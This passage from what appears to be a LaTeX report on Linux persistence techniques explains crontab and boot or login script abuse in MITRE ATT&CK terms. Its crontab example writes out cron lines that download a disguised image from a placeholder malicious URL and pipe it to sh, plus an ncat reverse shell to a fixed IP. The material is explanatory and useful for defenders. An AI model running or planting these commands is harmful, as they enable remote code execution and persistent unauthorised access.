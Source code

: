 \pagebreak
\paragraph{Most common persistence techniques}
The following mechanisms are based on functionalities that the operating system has been using since early versions, which is another similarity with Windows:

\begin{itemize}
\item \textbf{T1053.003 - crontab}: it stands for “Cron Table", and is a configurable list of commands or \textit{jobs} that are executed regularly using an internal scheduler. Similar to the Windows utility "Scheduled Tasks", this tool can easily be abused for initial or recurring execution of malicious code.

This scheduler can be set up using the \texttt{crontab} command, or changing files in a system-specific path, which is "\verb|/etc/cron.d/|" in Debian distributions, like in the next example: 

\vspace{7pt}
\begin{spverbatim}
### Examples of the crontab in bash ###
## Opening the crontab file. ## 
crontab –e 

## Copying these lines on the file will run tasks every 10 or 5 min respectively, that download and execute a file that seems a picture but is, in fact, hidden shell code. ##
*/10 * * * * wget -O - -q http://<malicious_url>/pics/logo.jpg|sh
*/5 * * * * curl http://<malicious_url>/malicious.png -k|dd skip=2446 bs=1|sh

## Another example that connects every 10 min to a remote IP and executes the input received as shell commands. ##
*/10 * * * * ncat -e /bin/sh 192.168.1.21 5556  
\end{spverbatim}
\vspace{7pt}

All tasks created or modified with the command \texttt{crontab} are saved in "\verb|/var/spool/cron/crontabs|" (in Debian), having a file per user. Therefore, \underline{no privileges} \underline{are needed} in order to create or modify a user crontab, but only when managing system jobs (or the \textit{root} user tasks, which is by default a privileged user).

\item \textbf{Boot, login or shell session: T1037.004 - RC scripts and T1546.004 - Shell scripts}: several scripts are executed by default when the system is booted, when a user logs in, or when a shell session is opened, which can be an interactive GUI shell or, for example, a remote session via SSH (explained in section \ref{sssec:linuxTools}). 


\end{itemize}
